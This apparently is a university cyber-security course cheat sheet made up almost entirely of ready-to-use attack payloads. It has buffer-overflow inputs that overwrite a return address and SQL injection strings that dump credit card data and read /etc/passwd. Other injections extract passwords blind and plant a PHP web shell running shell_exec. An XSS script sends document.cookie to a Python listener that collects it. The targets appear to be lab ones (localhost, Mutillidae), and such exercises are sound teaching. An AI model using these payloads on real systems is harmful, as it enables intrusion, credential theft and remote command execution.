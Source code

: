 # UNIMORE-cyber-security

## Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

### GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

### BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

### python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

### python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

## SQL Injection
> a space after the -- (comment macro) is required
```commandline
'-- 
```
```commandline
' or ''='' -- 
```
```commandline
' union select null, table_name, column_name,null,null,null,null from INFORMATION_SCHEMA.COLUMNS where table_name = 'credit_cards' -- 
```
```commandline
' union select null, ccnumber, ccv, expiration,null,null,null from credit_cards -- 
```
```commandline
' union select null, ccv, expiration,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
' union select null, LOAD_FILE('/etc/passwd'), null,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
scotty' AND password=(SELECT password FROM accounts WHERE username = 'scotty') -- 
```
```commandline
' OR LENGTH((SELECT password FROM accounts WHERE username='scotty'))=8 -- 
```
```commandline
john' AND LENGTH(password)=6; -- 
```
```commandline
john' AND SUBSTRING(password,-6,1)='m'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o' AND SUBSTRING(password,-4,1)='n'; --
```
```commandline
' union select null,null,null,null,3,2,'<html><head></head><body><h1>Injection mode:</h1><form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/injection.php' -- 
```
## XSS
```commandline
<img src="https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fcdn.bestmovie.it%2Fwp-content%2Fuploads%2F2020%2F06%2Fdonald-duck-su-disney-plus.png&f=1&nofb=1&ipt=c8cbf094b7800e8cb06494551c44104897ad20aeaed001a3a5fdf82ad525ae65">
```
```commandline
<form action="http://localhost:8000" method="POST">
  <input name="username" placeholder="Insert your name">
  <input type="submit">
</form>
```
### cookies
```commandline
<script>
  fetch("http://127.0.0.1:8000/", {
    method: "POST",
    body: document.cookie
  });
</script>
```
> save as listener.py
```commandline
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print("Data received:", post_data.decode())
        self.send_response(200)
        self.end_headers()

server = HTTPServer(('0.0.0.0', 8000), Handler)
print("Listening on port 8000...")
server.serve_forever()
```
```commandline
python3 listener.py
```
